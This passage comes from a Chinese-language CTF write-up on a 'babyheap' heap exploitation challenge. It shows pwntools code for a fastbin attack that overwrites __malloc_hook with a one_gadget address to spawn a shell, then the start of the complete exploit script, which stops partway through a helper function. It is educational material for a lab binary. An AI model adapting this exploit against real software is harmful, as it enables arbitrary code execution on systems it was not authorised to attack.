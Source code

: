 ```python
# 2. malloc to malloc_hook nearby
# allocate a 0x70 size chunk same with malloc hook nearby chunk, idx4
allocate(0x60)
free(4)
# edit idx4's fd point to fake chunk
fake_chunk_addr = main_arena - 0x33
fake_chunk = p64(fake_chunk_addr)
fill(2, len(fake_chunk), fake_chunk)

allocate(0x60)  # idx 4
allocate(0x60)  # idx 6

one_gadget_addr = libc_base + 0x4526a
payload = 0x13 * 'a' + p64(one_gadget_addr)
fill(6, len(payload), payload)
# trigger malloc_hook
allocate(0x100)
p.interactive() 
```

同时，这里的 onegadget 地址也可能需要尝试多次。



## 完整EXP



```python
#coding=utf8
from pwn import *
context.terminal = ['gnome-terminal', '-x', 'sh', '-c']
if args['DEBUG']:
    context.log_level = 'debug'
context.binary = "./babyheap"
babyheap = context.binary
if args['REMOTE']:
    p = remote('127.0.0.1', 7777)
else:
    p = process("./babyheap")
log.info('PID: ' + str(proc.pidof(p)[0]))

def offset_bin_main_arena(idx):
    word_bytes = context.word_size / 8
    offset = 4  # lock
    offset += 4  # flags
    offset += word_bytes * 10  # offset fastbin
    offset += word_bytes * 2  # top,last_remainder
    offset += idx * 2 * word_bytes  # idx
    offset -= word_bytes * 2  # bin overlap
    return offset
offset_unsortedbin_main_arena = offset_bin_main_arena(0)
def allocate(size):
    p.recvuntil('Command: ')
    p.sendline('1')
    p.recvuntil('Size: ')
    p.sendline(str(size))
def fill(idx, size, content):
    p.recvuntil('Command: ')
    p.sendline('2')
    p.recvuntil('Index: ')
    p.sendline(str(idx))
    p.recvuntil('Size: ')
    p.sendline(str(size))
    p.recvuntil('Content: ')
```